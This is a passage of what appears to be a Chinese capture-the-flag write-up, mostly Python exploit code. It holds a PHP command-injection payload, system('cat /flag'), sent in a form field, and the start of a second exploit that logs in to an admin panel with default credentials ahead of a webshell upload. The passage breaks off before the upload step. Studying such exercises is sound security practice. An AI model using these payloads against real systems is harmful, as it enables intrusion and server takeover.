 ```python
data = {
    'form_id': "system('cat /flag');"
}

response = requests.post(url, headers=headers, data=data)
print(response.text.split('\n')[0])
```

#### EXP2：后台木马文件上传

```python
import sys
import requests

try:
    HOST = sys.argv[1]
    PORT = sys.argv[2]
except:
    pass

uri = f"http://{HOST}:{PORT}"
def Login():

    url = uri+'/admin/Login/index.html?jstime=1681524228621'
    headers = {
        'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/113.0',
        'Accept': 'application/json, text/javascript, */*; q=0.01',
        'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
        'X-Requested-With': 'XMLHttpRequest',
        'Origin': 'http://127.0.0.1:34001',
        'Referer': 'http://127.0.0.1:34001/admin/Login/index.html',
        'Connection': 'close',
        'Content-Length': '42',
        'Sec-Fetch-Dest': 'empty',
        'Sec-Fetch-Mode': 'cors',
        'Sec-Fetch-Site': 'same-origin'
    }

    data = {
    'username': 'admin',
    'password': '000000',
    'verify': 'aaaa'
    }

    response = requests.post(url, headers=headers, data=data)
    cookie = response.cookies.get_dict();
    return cookie

def move(cookies):
    url = uri+'/admin/Config/index?jstime=1681524476984'
    headers = {
        'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/113.0',
        'Accept': 'application/json, text/javascript, */*; q=0.01',
        'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/x-www-form-urlencoded;charset=utf-8',
        'X-Requested-With': 'XMLHttpRequest',
        'Origin': 'http://127.0.0.1:34001',
        'Referer': 'http://127.0.0.1:34001/admin/Config',
        'Connection': 'close',
```